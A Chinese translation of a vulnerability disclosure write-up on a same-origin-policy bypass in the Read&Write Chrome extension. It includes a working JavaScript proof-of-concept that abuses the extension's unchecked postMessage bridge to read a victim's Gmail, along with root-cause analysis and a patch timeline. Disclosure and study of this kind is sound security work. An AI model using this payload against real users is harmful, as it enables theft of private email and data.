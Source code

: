 > 原文链接: https://www.anquanke.com//post/id/147167 


# 通过Chrome扩展应用的同源策略绕过漏洞读取用户电子邮件


                                阅读量   
                                **91412**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者Matthew Bryant，文章来源：thehackerblog.com
                                <br>原文地址：[https://thehackerblog.com/reading-your-emails-with-a-readwrite-chrome-extension-same-origin-policy-bypass-8-million-users-affected/index.html](https://thehackerblog.com/reading-your-emails-with-a-readwrite-chrome-extension-same-origin-policy-bypass-8-million-users-affected/index.html)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p2.ssl.qhimg.com/t01a071525837a7a9ea.jpg)](https://p2.ssl.qhimg.com/t01a071525837a7a9ea.jpg)



## 归纳

由于在从常规网页传递的消息中缺乏适当的origin检查，网页能够通过[Read&amp;Write Chrome扩展](https://chrome.google.com/webstore/detail/readwrite-for-google-chro/inoeonmfapjbbkmdafoankkfajkcphgd?hl=en)(易受攻击的版本1.8.0.139)调用敏感的后台API。这些API中的很多都允许危险的操作，这些操作并不意味着可以通过互联网上的任意网页进行调用。例如，带有方法名“thGetVoice”的后台API调用允许提供一个任意URL，该URL将由扩展检索，并通过“postMessage”返回响应。通过滥用此调用，攻击者可以劫持该扩展，从而使用受害者经过身份验证的会话从其他网站读取数据。作为一个PoC，我创建了一个利用，当Read&amp;Write扩展安装时，将窃取和显示所有用户的电子邮件。这当然不是Gmail中的漏洞，但是可以使用这个漏洞进行利用。请参阅下面的视频PoC来演示此问题。

这个拓展应用的作者[texthelp](https://www.texthelp.com/en-us/)公司迅速修补并在下一个工作日发布了一个补丁(干得好！)。因此，扩展的最新版本不再容易受到此问题的影响。他们还表现出真正的兴趣和关心补救扩展中的进一步问题，并表示他们将进一步加强代码库。



## 技术说明

Read&amp;Write Chrome扩展使用内容脚本“inject.js”将自定义工具栏注入到各种在线文档页面中，如Google Docs。默认情况下，该内容脚本被注入到所有HTTP和HTTPS源中。扩展清单中的以下摘录说明了这一点：

```
...trimmed for brevity...
  "content_scripts": [
    `{`
      "matches": [ "https://*/*", "http://*/*" ],
      "js": [ "inject.js" ],
      "run_at": "document_idle",
      "all_frames": true
    `}`
  ],
...trimmed for brevity...
```

在“inject.js”文件中，有一个事件监听器，用于监听被注入注入网页使用postMessage发送的消息：

```
window.addEventListener("message", this.onMessage)
```

这将在网页窗口发送任何postMessage消息时调用“this.onMessage”函数。以下是这个功能的代码：

```
function onMessage() `{`
    void 0 != event.source &amp;&amp; void 0 != event.data &amp;&amp; event.source == window &amp;&amp; "1757FROM_PAGERW4G" == event.data.type &amp;&amp; ("connect" == event.data.command ? chrome.extension.sendRequest(event.data, onRequest) : "ejectBar" == event.data.command ? ejectBar() : "th-closeBar" == event.data.command ? chrome.storage.sync.set(`{`
        enabledRW4GC: !1
    `}`) : chrome.extension.sendRequest(event.data, function(e) `{`
        window.postMessage(e, "*")
    `}`))
`}`
```

在上面的代码片段中，可以看到该函数将通过“chrome.extendsion.sendRequest”将所有接收到的postMessage消息传递到后台页面。此外，对这些消息的响应将传回“onMessage”函数，然后传回网页。这实际上构造了一个代理，它允许常规Web页面向Read&amp;Write后台页面发送消息。

Read&amp;Write有多个后台页面，可以在扩展名清单的摘录中看到：

```
...trimmed for brevity...
"background": `{`
  "scripts": [
    "assets/google-analytics-bundle.js",
    "assets/moment.js",
    "assets/thFamily3.js",
    "assets/thHashing.js",
    "assets/identity.js",
    "assets/socketmanager.js",
    "assets/thFunctionManager.js",
    "assets/equatio-latex-extractor.js",
    "assets/background.js",
    "assets/xmlIncludes/linq.js",
    "assets/xmlIncludes/jszip.js",
    "assets/xmlIncludes/jszip-load.js",
    "assets/xmlIncludes/jszip-deflate.js",
    "assets/xmlIncludes/jszip-inflate.js",
    "assets/xmlIncludes/ltxml.js",
    "assets/xmlIncludes/ltxml-extensions.js",
    "assets/xmlIncludes/testxml.js"
  ]
`}`,
...trimmed for brevity...
```

虽然有很多读取消息的后台页面（以及通过这些消息调用的许多函数），但我们将专注于立即可利用的示例。以下是文件“background.js”的摘录：

```
...trimmed for brevity...
chrome.extension.onRequest.addListener(function(e, t, o) `{`
...trimmed for brevity...
if ("thGetVoices" === e.method &amp;&amp; "1757FROM_PAGERW4G" == e.type) `{`
    if (g_voices.length &gt; 0 &amp;&amp; "true" !== e.payload.refresh) return void o(`{`
        method: "thGetVoices",
        type: "1757FROM_BGRW4G",
        payload: `{`
            response: g_voices
        `}`
    `}`);
    var c = new XMLHttpRequest;
    c.open("GET", e.payload.url, !0), c.onreadystatechange = function() `{`
        4 == this.readyState &amp;&amp; 200 == this.status &amp;&amp; (g_voices = this.responseText.toString(), o(`{`
            method: "thGetVoices",
            type: "1757FROM_BGRW4G",
            payload: `{`
                response: g_voices
            `}`
        `}`))
    `}`, c.send()
`}`
...trimmed for brevity...
```

上面的代码片断显示，当“chrome.extension.onRequest”侦听器的“method”设置为“thGetVoices”，“type”设置为“1757FROM_PAGERW4G”，并且被一个事件触发时，将执行代码片段。如果事件的“payload.refresh”设置为字符串“true”，那么XMLHTTPRequest将通过GET触发“payload.url”中指定的URL。在XMLHTTPRequest以200的状态码完成时，将使用请求的responseText生成响应消息。

通过滥用这个调用，我们可以用一个任意的URL向后台页面发送一条消息，这个URL将被HTTP响应主体回复。该请求将使用受害者的Cookie执行，因此将允许任意网页上的有效内容从其他网络来源窃取内容。以下payload是这个概念的PoC示例：

```
function exploit_get(input_url) `{`
    return new Promise(function(resolve, reject) `{`
        var delete_callback = false;
        var event_listener_callback = function(event) `{`
            if ("data" in event &amp;&amp; event.data.payload.response) `{`
                window.removeEventListener("message", event_listener_callback, false);
                resolve(event.data.payload.response);
            `}`
        `}`;
        window.addEventListener("message", event_listener_callback, false);
        window.postMessage(`{`
            type: "1757FROM_PAGERW4G",
            "method": "thGetVoices",
            "payload": `{`
                "refresh": "true",
                "url": input_url
            `}`
        `}`, "*");
    `}`);
`}`
setTimeout(function() `{`
    exploit_get("https://mail.google.com/mail/u/0/h/").then(function(response_body) `{`
        alert("Gmail emails have been stolen!");
        alert(response_body);
    `}`);
`}`, 1000);
```

上述攻击代码显示，可以通过这个漏洞读取跨源响应。在这个例子中，提供了Gmail“Simple HTML”版本的端点。上述payload可以托管在任何网站，它将能够读取登录到Gmail的用户的电子邮件。这是通过使用具有适当payload集的postMessage发出消息并为响应消息添加事件侦听器来完成的。通过“exploit_get()”函数返回的一连串JavaScript promise，我们可以从用户经过身份验证的任何站点窃取数据(假设可以通过HTTP GET访问这些数据，而不需要任何特殊的头文件)。

虽然上述示例引用了“thGetVoices”后台方法调用，但这只是调用这些后台页面API时发生的漏洞之一。除了使用这个调用之外，还有一些可以被利用的漏洞例子如下：

> thExtBGAjaxRequest”，攻击者可以使用它执行带有参数的“application/x-www-form-urlencoded；charset=UTF-8”类型的任意POST请求并读取响应体。
“OpenTab”，它允许攻击者对通常仅限于网页的任意位置打开大量的选项卡。
 

## PoC视频

[https://youtu.be/F0M_WuBGUV4](https://youtu.be/F0M_WuBGUV4)

## 

## 根源与修复思路

这个漏洞展示了一个通常与扩展一起发生的常见的安全隐患。为了更灵活地使用ChromeExtensionAPI，许多扩展将构建一个桥接，允许从常规的Web上下文调用后台页面。许多Chrome扩展开发人员忘记验证消息的来源，以防止任意站点调用潜在敏感的功能。这样可以确保所有调用都是由用户操作触发的，而不是由攻击者伪造的。



## timeline

6月2日（星期五晚上）：报告漏洞。<br>
6月3日：确认收到问题，确认将于周一发布。<br>
6月4日（星期一）：补丁发布漏洞。
